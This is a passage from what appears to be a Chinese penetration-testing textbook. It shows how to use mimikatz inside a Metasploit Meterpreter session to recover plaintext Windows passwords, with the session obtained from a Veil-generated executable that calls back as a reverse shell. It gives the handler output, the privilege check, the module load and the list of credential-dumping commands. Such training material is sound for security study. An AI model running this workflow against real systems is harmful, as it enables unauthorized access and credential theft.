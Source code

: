 从以上输出信息中，可以看到锁定用户的所有信息。如用户名、各种加密的 HASH 值、域名和密码等。

# 8.5 破解纯文本密码工具 mimikatz

## 8.5 破解纯文本密码工具 mimikatz

mimikatz 是一款强大的系统密码破解获取工具。该工具有段时间是作为一个独立程序运行。现在已被添加到 Metasploit 框架中，并作为一个可加载的 Meterpreter 模块。当成功的获取到一个远程会话时，使用 mimikatz 工具可以很快的恢复密码。本节将介绍使用 mimikatz 工具恢复密码。

【实例 8-3】演示使用 mimikatz 恢复纯文本密码。具体操作步骤如下所示。

（1）通过在目标主机（Windows 7）上运行 Veil 创建的可执行文件 backup.exe，获取一个远程会话。如下所示：

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler…
[*] Sending stage (769536 bytes) to 192.168.6.110
[*] Meterpreter session 2 opened (192.168.6.103:4444 -> 192.168.6.110:1523) at 2014-07-19 16:54:18 +0800
meterpreter > 
```

从输出的信息中，可以看到获取到了一个与 192.168.6.110 主机的远程会话。

（2）确认目标用户的权限。执行命令如下所示：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

从输出信息中，可以看到当前用户已经是系统权限。此时，就可以进行其他操作了。

（3）加载 mimikatz 模块。执行命令如下所示：

```
meterpreter > load mimikatz
Loading extension mimikatz…success. 
```

从输出的信息中，可以看到 mimikatz 模块已加载成功。

（4）查看 mimikatz 模块下有效的命令。执行命令如下所示：

```
meterpreter > help 
```

执行以上命令后，会输出大量的信息。其中，在 Meterpreter 中所有的命令都已分类。这里主要介绍下 mimikatz 相关的命令，如下所示：

```
Mimikatz Commands
=================
  Command    Description
  -------    -----------
  kerberos   Attempt to retrieve kerberos creds
  livessp    Attempt to retrieve livessp creds
  mimikatz_command  Run a custom commannd
  msv        Attempt to retrieve msv creds (hashes)
  ssp        Attempt to retrieve ssp creds
  tspkg      Attempt to retrieve tspkg creds
  wdigest    Attempt to retrieve wdigest creds 
```
